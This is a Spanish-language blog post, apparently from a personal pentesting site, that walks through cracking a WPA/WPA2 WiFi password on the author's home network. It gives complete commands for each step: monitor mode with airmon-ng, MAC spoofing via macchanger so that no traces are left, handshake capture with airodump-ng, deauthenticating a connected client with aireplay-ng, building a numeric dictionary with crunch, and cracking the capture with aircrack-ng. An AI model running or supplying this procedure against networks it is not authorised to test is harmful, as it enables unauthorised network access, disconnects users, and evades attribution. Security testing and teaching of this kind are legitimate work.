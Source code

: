 ```yaml
---
layout: single

title: Hacking WiFi - Pentesting WiFi

excerpt: "**El ataque que presento**
consiste en obtener el handshake WPA/WPA2 que se lleva a cabo entre las estaciones (clientes Wi-Fi) y el BSSID (punto de acceso) para intercambiar la clave compartida de cifrado de la red Wi-Fi durante la fase de autenticación, y luego intentar romperlo off-line mediante un diccionario de contraseñas."
date: 2022-07-29

classes: wide

header:

    teaser: ../assets/images/wifi/logo.png

    teaser_home_page: true
    
    icon: ../assets/images/logofairy.png

categories:

    - Wifi Slax
    - Kali Linux
    - Hacking Wifi
    - Wifi
    - Pentesting

tags:  

- Hacking WiFi
---
```


![](../assets/images/wifi/wallpapers.png)

La idea de esta guía es comprobar la seguridad de una red wifi. 

Para comenzar con esta practica se necesita una distribución GNU/Linux, la suite de software de seguridad inalámbrica **Aircrak-ng** y **Macchanger**.

* GNU/Linux: Recomiendo un live de Kali Linux o Wifi Slax.
* AIRCRACK-NG: Suite de software de seguridad inalámbrica. 
* MACCHANGER: Permite cambiar la Dirección **MAC** de una interfaz.

En caso de que se use alguna distribución de las cuales no son orientadas a Pentesting, se puede instalar las herramientas de la siguiente manera:

```bash
apt install aircrak-ng macchanger
```

El equipo que utilizo para este ejemplo es una Netbook de conectar igualdad.


![](../assets/images/wifi/debian.png)


## MODO MONITOR

El modo monitor permite capturar los paquetes que viajan en el aire y obtener información de los clientes denominados estaciones, que se encuentran dentro de una red WiFi y sus respectivas **MAC**. 

Hay que distinguir entre el **ESSID** que generalmente es el nombre que hace referencia al la red WiFi y el **BSSID** que hace referencia a la dirección MAC del dispositivo.

Para poner la tarjeta WiFi en ""modo monitor" es necesario conocer el nombre de la interfaz:


```bash
sudo ifconfig
```
![](../assets/images/wifi/ifconfig.png)

Como se puede observar en la imagen, el nombre de mi interfaz es **wlp3s0** y para activar el "modo monitor" se debe ejecutar el siguiente comando:

```bash
sudo airmon-ng start wlp3s0
```
![](../assets/imagen/wifi/monitor.png)

Ahora el nombre de la interfaz cambio a **wlp3s0mon**. Este nombre se debe a que la interfaz se encuentra en "modo monitor".

Si se ejecuta el comando _ifconfig_ se puede ver la descripción de la interfaz. 

Teniendo en cuenta que el ataque se realizara con nuestro ordenador, no se debe dejar huellas. Aquí es donde entra **macchanger**, el cual permite asignar una nueva dirección **MAC** aleatoria a cualquier interfaz.

Para lograr cambiar la dirección **MAC** de la interfaz monitor se deben seguir tres paso:

* Apagar la interfaz.
* Usar Macchanger.
* Activar la interfaz.

```bash
sudo ifconfig wlp3s0mon down
sudo macchanger -a wlp3s0mon
sudo ifconfig wlp3s0mon up
```
![](../assets/images/wifi/macchanger.png)

Ahora que todo esta configurado correctamente es hora de analizar el trafico que pasa por el aire.

![](../assets/images/wifi/airodump-ng.png)

* **PWR** hace referencia al "power". Cuanto mas bajo sea el valor, mejor es la señal que se recibe.

Luego de unos segundos se puede detener el análisis y elegir una red para **sniffear**. 

En este ejemplo usare la red de mi hogar:

```bash
airodump-ng --channel 1 -w wifi-casa --bssid xx:xx:xx:xx wlp3s0mon
```

* **- -channel:** el canal que utiliza la red WiFi.
* **-w:** nombre del archivo donde se guardara información.
* **- -bssid:** mac del router.
* **wlp3s0mon:** nombre de la interfaz monitor.

![](../assets/images/wifi/airodump-wifi-casa.png)

Dentro del directorio donde se esta ejecutando el ataque se crearon varios archivos, entre los cuales solo sera útil el que finaliza con extensión **.cap**.

![](../assets/images/wifi/ls.png)

## DES-AUTENTICACIÓN

El proceso para poder obtener el password de la red WiFi es desconectar a un cliente de la red con un ataque de **des-autenticación** generado por nuestro ordenador y así poder obtener el **HANDSHAKE**.

Utilizando **aireplay** se puede des-autenticar a un cliente de una red.

La sintaxis del comando es:

**aireplay-ng --deauth 4 -a "mac-wifi" -c "mac-cliente" wlp3s0mon**

```bash
sudo aireplay-ng --deauth 4 -a ec:e4:xx:xx:xx:xx -c e4:g3:xx:xx:xx:xx wlp3s0mon
```

![](../assets/images/wifi/deauth.png)

Con esto se logra capturar el **HANDSHAKE**, al caul por medio de un diccionario de furza bruta se podrá obtener la clave de la red WiFi.


## DICCIONARIO

Para crear un diccionario usare la herramienta **crunch**. La cual permite generar diccionarios de claves en función de diversos parámetros.
 
La sintaxis para crear un diccionario con **crunch** es la siguiente:

**crunch [nin] [max] [caracteres] -t [patron] -o [nombre del archivo]**

```bash
crunch 8 8 0123456789 -t 36@@@@@@ -o diccionario
```

![](../assets/images/wifi/diccionario.png)

El diccionario generado cuenta con miles de contraseñas de 8 dígitos.

![](../assets/images/wifi/diccionario1.png)

## CRACKERAR

Para crackear el **HANDSHAKE** solo bastara con **aircrack-ng** y el tiempo que se demore dependerá de la potencia del **CPU**.



```bash
sudo aircrack-ng wifi-casa-06.cap -w diccionario
```
![](../assets/images/wifi/crack.png)

Clave obtenida.

![](../assets/images/wifi/crack1.png)

La velocidad de mi **CPU** es 517 claves por segundos y le tomo 25 segundos en poder descifrar la clave de la red WiFi.

**Salir del modo monitor:**
 
```bash
sudo airmon-ng stop wlp3s0mon
```

Para conocer mas sobre la suite de aircrack-ng se puede visitar su pagina web.

- [Aircrack-ng](https://www.aircrack-ng.org/)
